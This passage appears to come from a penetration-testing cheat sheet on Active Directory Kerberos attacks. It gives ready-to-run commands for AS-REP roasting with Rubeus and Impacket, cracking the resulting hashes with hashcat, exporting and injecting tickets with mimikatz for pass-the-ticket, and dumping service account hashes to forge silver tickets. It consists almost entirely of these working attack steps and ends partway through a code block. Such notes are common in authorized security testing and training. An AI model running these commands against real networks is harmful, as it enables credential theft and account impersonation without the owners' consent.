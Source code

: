 ### AS-REP Roasting

> **AS-REP Roasting** dumps the `krbasrep5` hashes of user accounts that have Kerberos pre-authentication disabled.
 
- **Rubeus** (local => automatically find as-rep roastable users):
    
    ```powershell
    .\Rubeus.exe asreproast
    ```
    
- **Impacket** (remote => requires to enumerate as-rep roastable users with `BloodHound` for instance):
    
    ```bash
    GetNPUsers.py <Domain>/[username] -dc-ip <IP> -request  [-no-pass -usersfile users.txt]
    ```
    
- Cracking Kerberos 5 AS-REP etype 23 *(sometimes need to add `$23` after `$krb5asrep`)*:
    
    ```bash
    hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
    ```
    

### 🛂 Pass The ticket

- Export all the tickets into **`.kirbi`** files in the current directory:
    
    ```
    mimikatz # sekurlsa::tickets /export
    ```
    
- Impersonate a given ticket:
    
    ```
    mimikatz # kerberos::ptt <ticket>
    ```
    
- Verify with `klist` (or with `kerberos::list` within `mimikatz`) that we successfully impersonated the ticket by listing our cached tickets.

### 🎟️ Silver ticket (`mimikatz`)

1. Dump the hash and security identifier (SID) of the targeted service account:
    
    ```
    mimikatz # lsadump::lsa /inject /name:<SERVICE_NAME>
    ```
    
2. Create a silver ticket:
    
    ```
    mimikatz # kerberos::purge
    Ticket(s) purge for current session is OK
    mimikatz # kerberos::list
    ...
    mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<USER_SID> /target:<SPN> /service:<SERVICE_PROTOCOL> /rc4:<SERVICE_HASH> /ptt
    
